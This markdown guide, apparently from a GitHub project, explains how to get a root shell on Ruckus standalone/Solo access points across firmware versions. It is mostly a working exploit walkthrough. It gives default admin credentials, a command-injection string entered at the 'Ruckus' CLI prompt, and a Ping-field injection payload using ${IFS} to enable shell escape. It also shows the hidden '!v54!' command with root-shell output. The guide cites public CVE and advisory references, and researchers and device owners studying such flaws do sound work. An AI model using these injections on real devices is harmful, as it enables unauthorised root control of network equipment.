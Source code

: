 # Obtaining a root shell on Standalone/Solo Ruckus APs

The Ruckus CLI includes a hidden `!v54!` command which exits to a root shell.  

* Very old AP firmware checks a configuration setting `cli_esc2shell_ok` to decide whether the `!v54!` command is available.  
* Newer AP firmware checks an encrypted serial# to decide whether the `!v54!` command is available.  
The encrypted serial# is saved to a file using the `Ruckus` command, then the `!v54!` command uses `sesame` to decrypt this file.

## Firmware >112.1

Sorry, I don't have a method to bypass the serial# check on newer Standalone/Solo AP firmwares.  

If your AP was released before mid-2019 then you can downgrade to an older Solo firmware. If there are no older Solo firmwares, but your AP model was supported in ZoneDirector before this date (e.g. R730) then you can download the ZoneDirector release, [decrypt the image](ZDecryptRuckusBackups.md), extract the relevant ZoneDirector AP image (e.g. using 7-Zip) and temporarily install this.

For the R730, the [ZoneDirector 10.1.2.0.120](https://support.ruckuswireless.com/software/1970-zd1200-10-1-2-0-210-mr2-refresh1-software-release) firmware contains a suitable AP image at ```firmwares/ap-patch/patch000/ap-arm-11ax/10.1.2.0.120/rcks_fw.bl7.main```.

Alternatively, if your AP has Unleashed firmware available then you can install and use this to [obtain a root shell](UnleashedAddRootShell.md).

## Firmware 9.8 - 112.0 (excl. 110.0.0.0.2005)

These AP firmware versions [don't sanitize the encrypted serial#](https://alephsecurity.com/vulns/aleph-2019014#proof-of-concept).  
So we can use the `Ruckus` command to inject a root shell.
> Note that the injection only needs to be performed once.

### SSH to the AP

```console
$ ssh 192.168.0.1 -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-rsa -oCiphers=+aes256-cbc
```

Login. Default username is "super", password is "sp-admin".

### Command injection

```console
rkscli: Ruckus
```

Now type `";/bin/sh;"` and hit enter *(you won't be able to see what you're typing)*

```console
grrrr
```

> Instead of `grrrr`, any other random dog noise could  be printed to the screen. 

### Escape to shell

```console
rkscli: !v54!
What's your chow: 
```

Now hit enter

```console
BusyBox v1.15.2 (2015-07-21 22:07:19 PDT) built-in shell (ash)
Enter 'help' for a list of built-in commands.

#
```

You have a root shell.

## Firmware Pre-9.8

These AP firmware versions [don't sanitize the input to the Ping diagnostic tool](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6230).  
So we can use `Ping` to enable `cli_esc2shell_ok`.
> Note that the `Ping` enablement only needs to be performed once.

### Connect to the AP's Web UI

Login. Default username is "super", password is "sp-admin".

### Enable shell escape

Go to `Administration` > `Diagnostics`, paste `|rpm${IFS}-p${IFS}cli_esc2shell_ok="t"` into the `Ping:` textbox & hit `Run test`.

### SSH to the AP

```console
$ ssh 192.168.0.1 -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-rsa -oCiphers=+aes256-cbc
```

Login. Default username is "super", password is "sp-admin".

### Escape to shell

```console
rkscli: !v54!
What's your chow: 
```

Now hit enter

```console
BusyBox v1.15.2 (2015-07-21 22:07:19 PDT) built-in shell (ash)
Enter 'help' for a list of built-in commands.

#
```

You have a root shell.
